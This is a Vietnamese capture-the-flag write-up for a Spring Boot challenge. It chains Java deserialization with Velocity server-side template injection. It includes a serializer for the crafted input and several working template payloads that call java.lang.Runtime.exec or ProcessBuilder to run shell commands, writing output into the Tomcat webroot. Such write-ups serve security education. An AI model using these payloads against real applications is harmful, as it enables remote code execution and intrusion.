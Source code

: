 ![image](https://github.com/user-attachments/assets/8c07037a-a4c8-4ffb-973b-9ff00cec3774)

Đề cho một web được viết bằng java springboot. Đọc source thì thấy trang chủ chấp nhận method `POST` với tham số là data. Decode hex và base64 rồi deserialize thành class User. Sau đó chuyền biến `name` vào template Velocity.

```java
public String hello(@RequestParam("data") String data) throws IOException {
        String hexString = new String(Base64.getDecoder().decode(data));
        byte[] byteArray = Encode.hexToBytes(hexString);
        ByteArrayInputStream bis = new ByteArrayInputStream(byteArray);
        ObjectInputStream ois = new SecureObjectInputStream(bis);

        String name;
        try {
            Users user = (Users)ois.readObject();
            name = user.getName();
        } catch (Exception var13) {
            Exception e = var13;
            throw new RuntimeException(e);
        }

        if (name.toLowerCase().contains("#")) {
            return "But... For what?";
        } else {
            String templateString = "Hello, " + name + ". Today is $date";
            Velocity.init();
            VelocityContext ctx = new VelocityContext();
            LocalDate date = LocalDate.now();
            DateTimeFormatter formatter = DateTimeFormatter.ofPattern("MMMM dd, yyyy");
            String formattedDate = date.format(formatter);
            ctx.put("date", formattedDate);
            StringWriter out = new StringWriter();
            Velocity.evaluate(ctx, out, "test", templateString);
            return out.toString();
        }
    }
```

Nhìn qua có thể thấy bị dính SSTI, việc cần làm bây giờ là phải truyền payload vào biến name để rce. Nhưng gặp phải một vấn đề là lúc `readObjec()`, method `resolveClass` trong class `SecureObjectInputStream` sẽ gọi đến  
```java
    protected Class<?> resolveClass(ObjectStreamClass osc) throws IOException ,ClassNotFoundException{
        List<String> approvedClass = new ArrayList<String>();
        approvedClass.add(Users.class.getName());

        if(!approvedClass.contains(osc.getName())){
            throw new InvalidClassException("Can not deserialize this class! ",osc.getName());
        }
        return super.resolveClass(osc);
    }
```
Method này kiểm tra xem class có method `getName` hay không. Sau đó kiểm tra trong biến `name` có chứa ký tự `#` không. Trước hết ta viết code để serialize class `User` đã.
```java
    public static String bytesToHex(byte[] bytes) {
        StringBuilder hexString = new StringBuilder();
        for (byte b : bytes) {
            String hex = Integer.toHexString(0xFF & b);
            if (hex.length() == 1) hexString.append('0'); // Thêm '0' nếu cần
            hexString.append(hex);
        }
        return hexString.toString();
    }
    public static void main(String[] args) {
        Users u = new Users();
        try {
            ByteArrayOutputStream byteOut = new ByteArrayOutputStream();
            ObjectOutputStream out = new ObjectOutputStream(byteOut);
            u.setName("payload");
            out.writeObject(u);
            out.close();
            String hexString = bytesToHex(byteOut.toByteArray());
            String base64Encoded = Base64.getEncoder().encodeToString(hexString.getBytes());
            System.out.println("Serialized and Base64 encoded string: " + base64Encoded);

        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```
![image](https://github.com/user-attachments/assets/7d8d27a1-595d-4a17-88ec-9c8fa6c662a2)

Do không thể sử dụng ký tự `#` nên ta không thể dùng hàm `#set()` để tạo các biến trong template `Velocity`. Việc tạo ra biến để có thể gọi tới class `java.lang.Runtime` nhằm mục đích rce. Ví dụ
```
#set($s="")
#set($stringClass=$s.getClass())
#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("cat%20/flag563378e453.txt"))
#set($out=$process.getInputStream())
#set($null=$process.waitFor() )
#foreach($i+in+[1..$out.available()])
$out.read()
#end
```

Thật may là trong source code có tạo sẵn biến `$date` với kiể String để lấy ra thời gian 

```java
VelocityContext ctx = new VelocityContext();
            LocalDate date = LocalDate.now();
            DateTimeFormatter formatter = DateTimeFormatter.ofPattern("MMMM dd, yyyy");
            String formattedDate = date.format(formatter);
            ctx.put("date", formattedDate);
```
Ta có thể tận dụng biến này để gọi tới class `java.lang.Runtime`. Ban đầu thì mình tìm được [payload](https://garck3h.github.io/2023/07/03/velocity%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5/)

```
$date.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('touch /tmp/1337')
```
Nhưng payload này chỉ có thể thực thi câu lệnh và gửi thông tin tiến trình về thực thi command

![image](https://github.com/user-attachments/assets/e5a0b970-c802-46c8-9d6e-76599522b687)

![image](https://github.com/user-attachments/assets/b0d39acb-7bef-4487-8d8d-21f48de4a834)

Nếu làm theo cách này thì ta có thể ghi output command vào webroot. Trong Springboot thì để xuất hiện webroot, ta cần đưa file vào thư mục: /tmp/tomcat-docbase.8080...., mỗi lần deploy thì giá trị đằng sau sẽ là các ký tự khác, nhưng prefix đằng trước sẽ luôn là tomcat-docbase.8080..

Mình thử tạo một file trên webroot 

![image](https://github.com/user-attachments/assets/ad3431e5-c989-4d04-a905-8654c87c4c9d)

Và truy cập thử thì có thể thấy được nội dung file 

![image](https://github.com/user-attachments/assets/946f390d-2b57-4139-8d71-62b878f2326a)

Như vậy chỉ cần thay payload thành
```
$date.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('ls / > /tmp/$(ls /tmp | grep tomcat-docbase)/test1')
```
![image](https://github.com/user-attachments/assets/910bcce3-d689-4e15-82a7-9dc9972ca997)

![image](https://github.com/user-attachments/assets/98e7217a-c724-47dc-8723-d4937c5a5fae)

Giờ chỉ việt cat flag là xong


Lúc sau mình có tìm thêm được payload khác có thể xem output của shell luôn
```
$date.getClass().forName("java.io.BufferedReader").getConstructor($date.getClass().forName("java.io.Reader")).newInstance($date.getClass().forName("java.io.InputStreamReader").getConstructor($date.getClass().forName("java.io.InputStream")).newInstance($date.getClass().forName("java.lang.ProcessBuilder").getConstructor($date.getClass().forName("java.util.List")).newInstance(["ls","/"]).start().getInputStream())).lines().collect($date.getClass().forName("java.util.stream.Collectors").joining("\n"))
```

